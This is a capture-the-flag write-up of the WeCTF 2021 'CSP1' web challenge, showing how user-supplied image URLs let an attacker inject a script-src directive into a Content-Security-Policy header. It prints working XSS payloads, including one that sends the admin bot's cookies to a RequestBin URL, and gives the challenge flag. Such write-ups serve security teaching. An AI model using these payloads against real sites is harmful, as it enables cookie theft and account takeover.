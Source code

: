# WeCTF 2021

### Solved by: Dayton Hasty ([dayt0n](https://github.com/dayt0n)), Will Green ([Ducky](https://github.com/wlg0005))
### Challenge: CSP1
### Category: Web 

## Description:

#### Shame on Shou if his web app has XSS vulnerability. More shame on him if he does not know how to use CSP correctly.

#### Hint: Search Content-Security-Policy if you don't know what that is and check your browser console.

## Walkthrough:

Navigating to the provided URL, we're presented with a page that looks like this:

![](CSP1%20Writeup.001.png)

We can provide HTML such as `<h1>This is a test</h1>` and after we hit submit, it will be displayed to us on the next page. However, if we try to insert JavaScript via `<script>` tags, we are blocked by the [`Content Security Policy (CSP)`](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

Since we're given the source code for the site, let's take a look at how the CSP is implemented:

```javascript
@app.route('/display/<token>')
def display(token):
    user_obj = Post.select().where(Post.token == token)
    content = user_obj[-1].content if len(user_obj) > 0 else "Not Found"
    img_urls = [x['src'] for x in bs(content).find_all("img")]
    tmpl = render_template("display.html", content=content)
    resp = make_response(tmpl)
    resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
    return resp
```

From the code it looks like the [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) directive being set to `none` is the cause of our issues. The `script-src` directive specifies valid sources for JavaScript, and it being set to `none` means, as you would expect, there are no valid sources. 

So.. how do we get around this? Well you might notice that there is another directive, `img-src` which is using our input to specify valid sources for images:

```javascript
img_urls = [x['src'] for x in bs(content).find_all("img")]
...
resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
```

So, the code will parse any `<img>` tags for the URL provided in the `src` parameter, and insert those URLs into the CSP. This means that we can perform a [CSP policy injection attack](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#policy-injection)!

Now that we have a good idea of the exploit, let's craft it:

![](CSP1%20Writeup.002.png)

```javascript
<img src="http://; script-src 'unsafe-inline'"></img>
<script>alert(1)</script>
```

So, because the CSP is simply inputting the "URL" in the `src` parameter into the CSP, we can easily inject a duplicate `script-src` directive, but we will set ours to `unsafe-inline` allowing us to use inline `<script>` tags. And because of the way CSP works, our version of the directive will take precedence.

Let's fire off our test and see if works:

![](CSP1%20Writeup.003.png)

Popped!

Nice, so we've successfully exploited the vulnerability but the flag is actually held in the Admin Bot's cookies. So, let's change our exploit a little bit to allow us to steal his cookie:

![](CSP1%20Writeup.004.png)

```javascript
<img src="http://; script-src 'unsafe-inline'"></img>
<script>window.location = 'https://requestbin.io/1fy84do1?cookie=' + document.cookie;</script>
```

Great, this exploit will make the Admin Bot navigate to our [RequestBin](https://requestbin.io/) link, with his cookie set as the value of a GET parameter, allowing us to inspect the request and thus see the cookie.

Let's send the final exploit to the Admin Bot, and inspect the RequestBin:

![](CSP1%20Writeup.005.png)

And there's the flag! Pretty cool challenge that highlighted one of the easier ways to get around CSP.

### Flag: we{2bf90f00-f560-4aee-a402-d46490b53541@just_L1k3_<sq1_injEcti0n>}
